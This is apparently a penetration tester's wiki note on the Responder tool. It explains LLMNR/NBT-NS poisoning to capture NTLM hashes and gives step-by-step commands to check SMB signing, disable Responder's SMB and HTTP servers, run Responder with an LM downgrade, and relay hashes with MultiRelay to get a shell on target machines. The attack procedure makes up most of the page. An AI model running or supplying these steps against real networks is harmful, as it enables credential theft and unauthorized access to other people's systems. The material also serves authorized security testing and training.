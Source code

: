 # Responder

Responder can capture NTLMv1/v2 hashes and relaying them for authentication to other systems if SMB signing is disabled.

Responder works by listening for LLMNR or NBT-NS broadcast messages, and spoofing responses to targeted hosts, resulting in intercepting hashes we can either pass (relay) to other systems or crack offline.

With its MultiRelay tool, we can relay the hashes to other machines on the LAN and provide us a MultiRelay shell. It can also be used on windows as long as SMB is disabled!

## [[NTLM Relaying]]

1.  Check if SMB signing with sub-tool RunFinger.py  
    `python ./Responder/tools/RunFinger.py -i <target IP>`
    
2.  Set the following values in Responder.conf  
    ```bash
    SMB = Off
    HTTP = Off
    ```
    
3.  Start the Responder and answer to all LLMNR requests + --lm (add downgrade attack)  
    `python ./Responder/Responder.py -I eth0 --lm`
    
4.  In parallel start [[Tools/MultiRelay]] | [[Tools/smbrelayx]] to use found credentials to gain access/info  
    `python ./Responder/tools/MultiRelay.py -t <target IP> -u ALL`



```meta
requirements: 
results: 
opsec: 
oss: #linux
source: https://github.com/lgandx/Responder
description: Responder is an LLMNR, NBT-NS and MDNS poisoner.
```